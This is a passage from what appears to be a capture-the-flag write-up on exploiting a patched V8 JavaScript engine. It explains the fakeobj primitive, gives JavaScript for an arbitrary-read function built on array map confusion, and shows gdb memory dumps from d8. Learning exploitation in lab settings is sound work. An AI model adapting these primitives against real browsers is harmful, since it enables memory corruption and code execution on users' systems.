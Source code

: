 Let's talk about the `fakeobj` function, this primitive, in context of this vulnerability and specific patch, we put the address of the fake object we want to put, it is placed onto the first element of the `float_arr`, then we changed the map of the `float_arr` to the `reg` array's map, so when we tend to access the data from the 0th index, how this works is:-

![fakeobj primitive](/img/ropetwo/fakeobj.png)
* We put the address of the object we wamt to overwrite another object with.
* Set the map of the map of the `float_arr` to the map of the `reg`
* Get the fake object from the `float_arr`
* Put the map of the `float_arr` back to it's original place

These are the primitives, we needed to have before we jump into the read/write primitive, although with these out of the way, we can now work on our functions `arb_read` and `arb_write` which will be used to read address from/write values to an address respectively.

Moving on, the arbitrary read function is of interested and I'll try my best to explain, for the moment, consider the following function which is used to read a value from the arbitrary address:-

```js
var rw_helper = [itof(float_arr_map, 64), 1.1, 2.2, 3.3];
var rw_helper_addr = addrof(rw_helper) & 0xffffffffn;

console.log("[+] Controlled RW helper address: 0x" + rw_helper_addr.toString(16));

function arb_read(addr) {
    let fake = fakeobj(rw_helper_addr - 0x20n);
    rw_helper[1] = itof((0x8n << 32n) + addr - 0x8n, 64);
    return ftoi(fake[0], 64);
}
```

This function works by first, making a fake object via the `fakeobj` function, then we put the address we want to read from, it is written to the 1st index of the `rw_helper` array, then the first element from the `fake` object is wrong, this is the follow up of the function, which left the understanding of the whole logic, I explained it in steps with the help of the the `d8` binary and showing it:-

***
We create the `fakeobj`with the address of the `rw_helper`, we subtracted `0x20` from it because the 32 bytes are for the layout of the memory, in this case, we did it because>:-

```asm
gef➤  r --shell ./xpl.js --allow-natives-syntax
Starting program: /home/d4mianwayne/Pwning/HackTheBox/htb-rope2/d8 --shell ./xpl.js --allow-natives-syntax
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7ffff7c1c700 (LWP 157278)]
[New Thread 0x7ffff741b700 (LWP 157279)]
[New Thread 0x7ffff6c1a700 (LWP 157280)]
[*] Float array map   :  0x8241909
[*] Regular array map :  0x8241869
[+] Controlled RW helper address: 0x808a14d
V8 version 8.5.0 (candidate)
d8> %DebugPrint(rw_helper);
0x16d50808a14d <JSArray[4]>
[6.7481182e-316, 1.1, 2.2, 3.3]
d8> ^C
gef➤  x/10xg 0x05a00808a14d - 1 - 0x30
0x5a00808a11c:	0x0000393638313432	0x0000000808040a3d
0x5a00808a12c:	0x0000000008241909	0x3ff199999999999a
0x5a00808a13c:	0x400199999999999a	0x400a666666666666
0x5a00808a14c:	0x080406e908241909	0x000000080808a125
0x5a00808a15c:	0x0000000208040975	0x0000000008241909
gef➤  x/10xg 0x05a00808a14d - 1 - 0x20
0x5a00808a12c:	0x0000000008241909	0x3ff199999999999a
```